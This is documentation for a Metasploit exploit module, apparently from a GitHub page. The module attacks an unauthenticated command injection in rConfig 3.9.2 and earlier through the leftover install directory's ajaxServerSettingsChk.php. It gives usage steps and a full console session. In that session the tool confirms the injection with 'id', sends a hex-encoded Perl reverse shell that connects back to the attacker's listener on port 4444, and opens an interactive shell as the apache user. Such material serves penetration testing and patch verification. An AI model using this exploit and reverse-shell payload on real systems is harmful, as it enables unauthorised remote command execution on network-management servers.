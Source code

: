 ## Description

  This module exploits an unauthenticated command injection vulnerability
  in rConfig versions 3.9.2 and prior. The `install` directory is not
  automatically removed after installation, allowing unauthenticated users
  to execute arbitrary commands via the `ajaxServerSettingsChk.php` file
  as the web server user.


## Vulnerable Software

  This module has been tested successfully on [rConfig](https://rconfig.com/)
  version 3.9.2 on CentOS 7.7.1908 (x64).


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/rconfig_install_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `run`
  5. You should get a new session


## Options

  **TARGETURI**

  The base path to rConfig install directory (default: `/install/`)


## Scenarios

  ```
  msf > use exploit/unix/webapp/rconfig_install_cmd_exec 
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > set rhosts 172.16.191.131
  rhosts => 172.16.191.131
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > set verbose true
  verbose => true
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > check

  [*] Executing command: id
  [*] Response: uid=48(apache) gid=48(apache) groups=48(apache)
  [+] 172.16.191.131:443 - The target is vulnerable.
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   Automatic (Unix In-Memory)
     1   Automatic (Linux Dropper)


  msf exploit(unix/webapp/rconfig_install_cmd_exec) > set target 0
  target => 0
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > set payload cmd/unix/reverse_perl
  payload => cmd/unix/reverse_perl
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > set lhost 172.16.191.165 
  lhost => 172.16.191.165
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Executing command: id
  [*] Response: uid=48(apache) gid=48(apache) groups=48(apache)
  [*] Executing command: /bin/echo -ne '\x70\x65\x72\x6c\x20\x2d\x4d\x49\x4f\x20\x2d\x65\x20\x27\x24\x70\x3d\x66\x6f\x72\x6b\x3b\x65\x78\x69\x74\x2c\x69\x66\x28\x24\x70\x29\x3b\x66\x6f\x72\x65\x61\x63\x68\x20\x6d\x79\x20\x24\x6b\x65\x79\x28\x6b\x65\x79\x73\x20\x25\x45\x4e\x56\x29\x7b\x69\x66\x28\x24\x45\x4e\x56\x7b\x24\x6b\x65\x79\x7d\x3d\x7e\x2f\x28\x2e\x2a\x29\x2f\x29\x7b\x24\x45\x4e\x56\x7b\x24\x6b\x65\x79\x7d\x3d\x24\x31\x3b\x7d\x7d\x24\x63\x3d\x6e\x65\x77\x20\x49\x4f\x3a\x3a\x53\x6f\x63\x6b\x65\x74\x3a\x3a\x49\x4e\x45\x54\x28\x50\x65\x65\x72\x41\x64\x64\x72\x2c\x22\x31\x37\x32\x2e\x31\x36\x2e\x31\x39\x31\x2e\x31\x36\x35\x3a\x34\x34\x34\x34\x22\x29\x3b\x53\x54\x44\x49\x4e\x2d\x3e\x66\x64\x6f\x70\x65\x6e\x28\x24\x63\x2c\x72\x29\x3b\x24\x7e\x2d\x3e\x66\x64\x6f\x70\x65\x6e\x28\x24\x63\x2c\x77\x29\x3b\x77\x68\x69\x6c\x65\x28\x3c\x3e\x29\x7b\x69\x66\x28\x24\x5f\x3d\x7e\x20\x2f\x28\x2e\x2a\x29\x2f\x29\x7b\x73\x79\x73\x74\x65\x6d\x20\x24\x31\x3b\x7d\x7d\x3b\x27'|sh
  [*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.131:35004) at 2019-10-29 11:48:59 -0400

  id
  uid=48(apache) gid=48(apache) groups=48(apache)
  uname -a
  Linux localhost.localdomain 3.10.0-1062.4.1.el7.x86_64 #1 SMP Fri Oct 18 17:15:30 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  pwd
  /home/rconfig/www/install/lib/ajaxHandlers
  ^C
  Abort session 1? [y/N]  y
  ""

  [*] 172.16.191.131 - Command shell session 1 closed.  Reason: User exit
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > 
  ```

